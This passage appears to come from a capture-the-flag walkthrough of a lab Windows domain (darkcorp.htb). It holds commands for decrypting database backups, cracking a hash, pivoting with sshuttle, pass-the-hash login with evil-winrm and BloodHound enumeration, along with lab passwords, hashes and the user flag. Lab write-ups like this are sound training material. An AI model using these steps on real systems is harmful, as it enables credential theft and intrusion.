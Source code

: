 ## 7. Extract More Credentials from Backups
Locate encrypted PostgreSQL backup:
```bash
ls -la /var/backups/postgres/
```
Decrypt backup with DB password:
```bash
gpg --homedir /var/lib/postgresql/.gnupg --pinentry-mode=loopback --passphrase '2Qa2SsBkQvsc' --decrypt /var/backups/postgres/dev-dripmail.old.sql.gpg > dev-dripmail.old.sql
```
Extract users and hashes from decrypted file:  
User `victor.r` with hash `cac1c7b0e7008d67b6db40c03e76b9c0`.

Crack victor.r’s password:  
`victor1gustavo@#`.

## 8. Internal Pivot: SSHuttle VPN Tunnel into Internal Network
```bash
sshuttle -r ebelford:'ThePlague61780'@drip.htb -N 172.16.20.0/24
echo -e "172.16.20.1 DC-01.darkcorp.htb
172.16.20.2 WEB-01.darkcorp.htb" | sudo tee -a /etc/hosts
```

## 9. Internal Network Enumeration and User Flag
Scan and access:
```bash
nmap -sC -sV -p5000 172.16.20.2
```
Port 5000 requires Basic Auth — login with victor.r credentials.

Evil-WinRM to WEB-01:
```bash
evil-winrm -i WEB-01.darkcorp.htb -u Administrator -H 88d84ec08dad123eb04a060a74053f21
cd Desktop
type user.txt
# User flag: e28482691d5713b280a5c1fb2dd55d6f
```

## 10. Domain Enumeration with BloodHound through ProxyChains
Install proxychains:
```bash
sudo apt install proxychains4
```
Configure SOCKS5 proxy, then run BloodHound collection:
```bash
proxychains4 bloodhound-python -u victor.r@darkcorp.htb -p 'victor1gustavo@#' -dc dc-01.darkcorp.htb --dns-tcp -ns 172.16.20.1 --dns-timeout 10 -c ALL -d darkcorp.htb --zip
```
Reveals `taylor.b.adm` is member of `gpo_manager`.
